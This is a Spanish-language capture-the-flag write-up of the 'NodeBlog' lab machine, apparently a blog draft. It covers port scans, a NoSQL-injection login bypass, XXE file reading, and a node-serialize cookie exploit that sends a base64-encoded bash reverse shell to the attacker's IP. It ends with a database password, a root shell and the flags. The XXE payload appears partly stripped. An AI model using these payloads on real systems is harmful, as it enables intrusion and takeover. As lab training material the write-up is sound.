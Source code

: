```yaml
---
title: 'CTF - NodeBlog WriteUP'
date: '2022-02-01'
tags: ["#Import 2022-12-20 21:06"]
draft: true
authors: ['default']
summary: '![](/static/images/uploads/ctf-nodeblog-writeup/Screenshot_1.webp)'
---
```


![](/static/images/uploads/ctf-nodeblog-writeup/Screenshot_1.webp)

nmap me cuesta descubrir cosas. He tenido que ralentizar el comando de descubrir todos los pueortos porque no me encontraba ninguno más que el 22, A si que lo he lanzado normal


```
nmap -p- --open -sT -vvv -n -Pn 10.10.11.139 -oG allPorts
```
y despues


```
nmap -p22,5000 -sCV -n -Pn -vvv 10.10.11.139 -oN targeted
# Scanned at 2022-02-01 20:20:50 CET for 15s
# PORT     STATE SERVICE REASON         VERSION
# 22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
# | ssh-hostkey: 
# |   3072 ea:84:21:a3:22:4a:7d:f9:b5:25:51:79:83:a4:f5:f2 (RSA)
# | ssh-rsa
# |   256 b8:39:9e:f4:88:be:aa:01:73:2d:10:fb:44:7f:84:61 (ECDSA)
# | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJZPKXFj3JfSmJZFAHDyqUDFHLHBRBRvlesLRVAqq0WwRFbeYdKwVIVv0DBufhYXHHcUSsBRw3/on9QM24kymD0=
# |   256 22:21:e9:f4:85:90:87:45:16:1f:73:36:41:ee:3b:32 (ED25519)
# |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEDIBMvrXLaYc6DXKPZaypaAv4yZ3DNLe1YaBpbpB8aY
# 5000/tcp open  http    syn-ack ttl 63 Node.js (Express middleware)
# |_http-title: Blog
# | http-methods: 
# |_  Supported Methods: GET HEAD POST OPTIONS
# Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Foto

![](/static/images/uploads/ctf-nodeblog-writeup/Screenshot\_2.webp)

Tiene un login.

Probamos sqlmap y no tiene inyecciones sql.


```
❯ curl -X POST nodeblog.htb:5000/login -H "Content-Type: application/json" -d "this is not a json"





Error



```
SyntaxError: Unexpected token t in JSON at position 0  
 &nbsp; &nbsp;at JSON.parse (&lt;anonymous&gt;)  
 &nbsp; &nbsp;at createStrictSyntaxError (/opt/blog/node_modules/body-parser/lib/types/json.js:158:10)  
 &nbsp; &nbsp;at parse (/opt/blog/node_modules/body-parser/lib/types/json.js:83:15)  
 &nbsp; &nbsp;at /opt/blog/node_modules/body-parser/lib/read.js:121:18  
 &nbsp; &nbsp;at invokeCallback (/opt/blog/node_modules/raw-body/index.js:224:16)  
 &nbsp; &nbsp;at done (/opt/blog/node_modules/raw-body/index.js:213:7)  
 &nbsp; &nbsp;at IncomingMessage.onEnd (/opt/blog/node_modules/raw-body/index.js:273:7)  
 &nbsp; &nbsp;at IncomingMessage.emit (events.js:412:35)  
 &nbsp; &nbsp;at endReadableNT (internal/streams/readable.js:1334:12)  
 &nbsp; &nbsp;at processTicksAndRejections (internal/process/task_queues.js:82:21)
```




```
Esta intentando parsear json. nosql injection?


```
❯ curl -X POST nodeblog.htb:5000/login -H "Content-Type: application/json" -d "{\"user\":,\"password\":{\"\$gt\":\"\"}}"
# funciona
```
Con burpsuite/repeater prueblo a hacer la llamada y mando al navegador la sesion iniciada

fotos de burpsuite y el boton upload

Subo un archivo normal y me sale esto si veo el html


```
Invalid XML Example: 

 Example Post
 Example Description
 Example Markdown

```
Veo que se pueden escribir articulos con 

* title
* description
* markdown

Me genero un xml 


```

hola
aaa
md

```
Y me lleva a la ventana de articulo con todo relleno.

Encuentro informacion sobre una vulnerabilidad de XML External entity (https://hackmd.io/@Chivato/rkSqk9gbL) y veo que se puede ejecutar codigo


```
xml version="1.0" encoding="ISO-8859-1"? 
 ]

hola
aaa
&xxe;

```
![](/static/images/uploads/ctf-nodeblog-writeup/Screenshot\_4.webp)

Es vulnerable. Modifico el script para probar otras cosas.

Me acuerdo de que cuando me daba el error de json, me daba una ruta donde estaba la app /opt/blog

Encuentro que un archivo tipico de nodejs es el server.js e imprimo su contenido /opt/blog/server.js

Veo que usa node-serializer [https://snyk.io/test/npm/node-serialize#:~:text=node-serialize serializes an object,into the unserialize() function](https://snyk.io/test/npm/node-serialize#:~:text=node%2Dserialize%20serializes%20an%20object,into%20the%20unserialize()%20function).

En server.js veo que el serializador parsea la cookie y la vulnerabilidad esta en que en la cookie puedes poner codigo que ejecuta el programa.

con burpsuite hago pruebas y veo que a veces ejecuta codigo y a veces no. Como hay serializaciones y demas, escribo el codigo en base64 intentando que no haya ni '+' ni '=' poniendo espacios.


```
❯ echo -n "bash -i & /dev/tcp/10.10.14.9/443 0&1" | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC45LzQ0MyAwPiYx
❯ echo -n "bash -i  & /dev/tcp/10.10.14.9/443 0&1" | base64
YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTQuOS80NDMgMD4mMQ==
❯ echo -n "bash -i  & /dev/tcp/10.10.14.9/443  0&1" | base64
YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTQuOS80NDMgIDA+JjE=
❯ echo -n "bash -i  &  /dev/tcp/10.10.14.9/443  0&1" | base64
YmFzaCAtaSAgPiYgIC9kZXYvdGNwLzEwLjEwLjE0LjkvNDQzICAwPiYx

# Copio el siguiente código en la cookie de burpsuite
# echo -n YmFzaCAtaSAgPiYgIC9kZXYvdGNwLzEwLjEwLjE0LjkvNDQzICAwPiYx | base64 -d | bash
```
![](/static/images/uploads/ctf-nodeblog-writeup/Screenshot\_5.webp)

Antes de enviarlo, codifico el contenido de auth= a URLEncoding

Me pongo en esuccha en mi equipo con netcat y estoy dentro.

Entramos a mongodb y buscamos informacion del usuario


```
❯ admin@nodeblog:/opt/blog$ mongo 127.0.0.1
❯ show databases
admin   0.000GB
blog    0.000GB
config  0.000GB
local   0.000GB
❯ use blog
switched to db blog
❯ show collections
articles
users
❯ db.users.find()
{ "_id" : ObjectId("61b7380ae5814df6030d2373"), "createdAt" : ISODate("2021-12-13T12:09:46.009Z"), "username" : "admin", "password" : "IppsecSaysPleaseSubscribe", "__v" : 0 }
```
Tenemos la contraseña. Vamos a probar a ejecutar 


```
❯admin@nodeblog:/opt/blog$ sudo su -
[sudo] password for admin: 
❯ root@nodeblog:~# whoami
root
❯ root@nodeblog:~# cat /home/admin/user.txt
e83b0edb016a7146e2e5aa00f4416730
❯ root@nodeblog:~# cat root.txt
b38f827567b54906d52439592c719952
```
